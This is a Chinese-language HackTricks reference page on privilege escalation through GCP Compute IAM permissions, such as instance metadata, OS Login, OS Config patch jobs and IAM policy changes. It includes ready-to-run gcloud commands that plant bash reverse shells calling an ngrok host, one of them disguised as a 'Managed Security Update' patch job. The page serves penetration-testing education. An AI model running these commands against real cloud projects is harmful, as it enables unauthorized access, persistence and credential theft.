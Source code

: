 # GCP - Compute Privesc

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image.png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## Compute

有关 GCP 中 Compute 和 VPC（网络）的更多信息，请查看：

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
请注意，要执行所有需要修改实例元数据的权限提升攻击（如添加新用户和 SSH 密钥），**您需要对附加到实例的服务账户具有 `actAs` 权限**，即使服务账户已经附加！
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

拥有该权限后，您可以**修改**一个**实例**的**元数据**信息，并更改**用户的授权密钥**，或**创建**一个具有 sudo 权限的新用户。因此，您将能够通过 SSH 进入任何 VM 实例并窃取实例正在运行的 GCP 服务账户。\
限制：

* 请注意，默认情况下，在 VM 实例中运行的 GCP 服务账户具有**非常有限的范围**
* 您需要能够**联系 SSH** 服务器以登录

有关如何利用此权限的更多信息，请查看：

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

您还可以通过添加新的启动脚本并重启实例来执行此攻击：
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

此权限赋予**与之前权限相同的特权**，但仅针对特定实例，而不是整个项目。**与前一部分相同的漏洞和限制适用**。

### `compute.instances.setIamPolicy`

这种权限将允许您**授予自己具有之前权限的角色**并利用它们提升特权。

### **`compute.instances.osLogin`**

如果**实例中启用了OSLogin**，则使用此权限您可以直接运行**`gcloud compute ssh [INSTANCE]`**并连接到实例。您**在实例内没有root权限**。

{% hint style="success" %}
为了成功使用此权限登录到VM实例，您需要对附加到VM的SA拥有`iam.serviceAccounts.actAs`权限。
{% endhint %}

### **`compute.instances.osAdminLogin`**

如果**实例中启用了OSLogin**，则使用此权限您可以直接运行**`gcloud compute ssh [INSTANCE]`**并连接到实例。您将在实例内拥有**root权限**。

{% hint style="success" %}
为了成功使用此权限登录到VM实例，您需要对附加到VM的SA拥有`iam.serviceAccounts.actAs`权限。
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

可以**创建一个分配了服务账户的虚拟机并窃取该服务账户的令牌**，通过访问元数据来提升特权。

此方法的利用脚本可以在[这里](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py)找到。

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

如果您拥有**`osconfig.patchDeployments.create`**或**`osconfig.patchJobs.exec`**权限，您可以创建一个[**补丁作业或部署**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching)。这将使您能够在环境中横向移动，并在项目内的所有计算实例上获得代码执行权限。

请注意，目前您**不需要对附加到实例的SA拥有`actAs`权限**。

如果您想手动利用此功能，您需要创建一个[**补丁作业**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) **或** [**部署**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json)**。**\
要运行补丁作业： 

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

要部署补丁部署：
```bash
gcloud compute os-config patch-deployments create <name> ...
```
该工具 [patchy](https://github.com/rek7/patchy) 过去可以用于利用此错误配置（但现在无法使用）。

**攻击者也可以利用此进行持久化。**

### `compute.machineImages.setIamPolicy`

**授予自己额外权限** 以访问计算镜像。

### `compute.snapshots.setIamPolicy`

**授予自己额外权限** 以访问磁盘快照。

### `compute.disks.setIamPolicy`

**授予自己额外权限** 以访问磁盘。

### 绕过访问范围

通过此链接，您可以找到一些 [**尝试绕过访问范围的想法**](../)。

### GCP 计算实例中的本地权限提升

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## 参考文献

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image.png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 **上关注我们** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
